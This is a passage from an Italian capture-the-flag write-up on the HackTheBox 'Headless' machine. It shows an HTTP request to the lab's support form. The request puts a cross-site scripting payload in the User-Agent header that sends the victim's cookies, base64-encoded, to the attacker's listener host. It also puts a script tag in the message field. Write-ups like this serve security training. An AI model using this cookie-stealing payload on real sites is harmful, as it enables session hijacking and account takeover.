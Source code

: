 ![Desktop View](/assets/img/headless/headless-hacking-attempt.png)

Una cosa che prima non hofatto notare, è che nelle GET request che inviamo al server c'è sempre un token: `is_admin`.

Proviamo ad ottenere il token modificando la richiesta.

```txt
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?
cookie="+btoa(document.cookie);</script>
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
fname=test&lname=test&email=test%40headless.htb&phone=0700000000&message=%3Cscript%3Ealert
%281%29%3C%2Fscript%3E
```
